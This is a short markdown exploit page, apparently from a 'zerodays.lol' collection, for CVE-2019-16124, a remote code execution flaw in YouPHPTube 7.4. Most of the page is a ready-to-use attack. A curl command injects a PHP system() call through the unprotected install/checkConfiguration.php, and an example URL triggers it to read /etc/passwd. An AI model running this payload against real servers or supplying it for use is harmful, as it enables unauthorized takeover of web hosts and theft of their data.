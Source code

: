 ```yaml
---
title: CVE-2019-16124
date: {{ date }}
background: bg-black
icon: cve
tags:
    - exploit
    - CVE-2019-16124
categories:
    - Exploits
    - CVE
intro: YouPHPTube 7.4 Remote Code Execution
---
```


CVE-2019-16124
---------------

## Quick Info
In YouPHPTube 7.4, the file `install/checkConfiguration.php` has no access control, which leads to everyone being able to edit the configuration file, and insert malicious PHP code. To exploit this, we will generate a new malicious config file using the command below:

```
Affected Version: <=7.4
Vendor Homepage: https://www.youphptube.com/
```


## zerodays.lol payload
```shell script {.wrap}
curl -s "http://put-ip-here/install/checkConfiguration.php" --data "contactEmail=fake-email@fake.com&createTables=2&mainLanguage=RCE&salt=';system(\$_GET['bots']);echo '&systemAdminPass=zerodays.LOL&systemRootPath=/var/www/html/&webSiteRootURL=/var/www/html/&webSiteTitle=Site-Title-Here&databaseHost=127.0.0.1&databaseName=Any-DBname-Here&databasePass=&databasePort=3306&databaseUser=root"
```

## Successful Exploitation
Visit site and add param `bots=` to the URL to gain RCE. Example:

```php
http://put-ip-here/?bots=cat+/etc/passwd
```
